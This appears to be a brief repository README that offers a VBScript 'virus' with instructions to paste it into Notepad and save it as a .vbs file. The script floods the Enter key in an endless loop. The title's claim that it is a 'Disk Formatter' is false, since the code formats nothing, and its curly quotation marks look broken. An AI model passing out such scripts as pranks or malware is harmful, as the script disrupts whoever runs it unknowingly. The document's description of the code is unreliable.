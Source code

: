 # Disk Formatter EXE File Virus/Programme 
This code will Continuously Hit Enter Button After Executing The Files. 
<br>
# or

# copy the following code in notepad and save that with .vbs extention

```vbs
Set wshShell = wscript.CreateObject(”WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```
# Disclaimer
This Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.


